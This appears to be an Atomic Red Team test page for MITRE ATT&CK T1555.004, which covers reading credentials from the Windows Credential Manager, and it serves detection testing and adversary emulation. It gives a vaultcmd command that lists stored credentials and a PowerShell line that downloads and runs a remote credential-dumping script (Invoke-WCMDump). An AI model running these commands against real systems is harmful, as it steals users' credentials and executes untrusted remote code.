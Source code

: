 # T1555.004 - Credentials from Password Stores: Windows Credential Manager
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555/004)
<blockquote>Adversaries may acquire credentials from the Windows Credential Manager. The Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos in Credential Lockers (previously known as Windows Vaults).(Citation: Microsoft Credential Manager store)(Citation: Microsoft Credential Locker)

The Windows Credential Manager separates website credentials from application or network credentials in two lockers. As part of [Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003), Internet Explorer and Microsoft Edge website credentials are managed by the Credential Manager and are stored in the Web Credentials locker. Application and network credentials are stored in the Windows Credentials locker.

Credential Lockers store credentials in encrypted <code>.vcrd</code> files, located under <code>%Systemdrive%\Users\\[Username]\AppData\Local\Microsoft\\[Vault/Credentials]\</code>. The encryption key can be found in a file named <code>Policy.vpol</code>, typically located in the same folder as the credentials.(Citation: passcape Windows Vault)(Citation: Malwarebytes The Windows Vault)

Adversaries may list credentials managed by the Windows Credential Manager through several mechanisms. <code>vaultcmd.exe</code> is a native Windows executable that can be used to enumerate credentials stored in the Credential Locker through a command-line interface. Adversaries may gather credentials by reading files located inside of the Credential Lockers. Adversaries may also abuse Windows APIs such as <code>CredEnumerateA</code> to list credentials managed by the Credential Manager.(Citation: Microsoft CredEnumerate)(Citation: Delpy Mimikatz Crendential Manager)

Adversaries may use password recovery tools to obtain plain text passwords from the Credential Manager.(Citation: Malwarebytes The Windows Vault)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Saved Credentials via VaultCmd](#atomic-test-1---access-saved-credentials-via-vaultcmd)

- [Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump](#atomic-test-2---winpwn---loot-local-credentials---invoke-wcmdump)


<br/>

## Atomic Test #1 - Access Saved Credentials via VaultCmd
List credentials currently stored in Windows Credential Manager via the native Windows utility vaultcmd.exe
Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos
https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/
https://medium.com/threatpunter/detecting-adversary-tradecraft-with-image-load-event-logging-and-eql-8de93338c16

**Supported Platforms:** Windows


**auto_generated_guid:** 9c2dd36d-5c8b-4b29-8d72-a11b0d5d7439






#### Attack Commands: Run with `command_prompt`! 


```cmd
vaultcmd /listcreds:"Windows Credentials"
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump
Loot local Credentials - Invoke-WCMDump technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fa714db1-63dd-479e-a58e-7b2b52ca5997






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/DumpWCM.ps1')
Invoke-WCMDump
```






<br/>
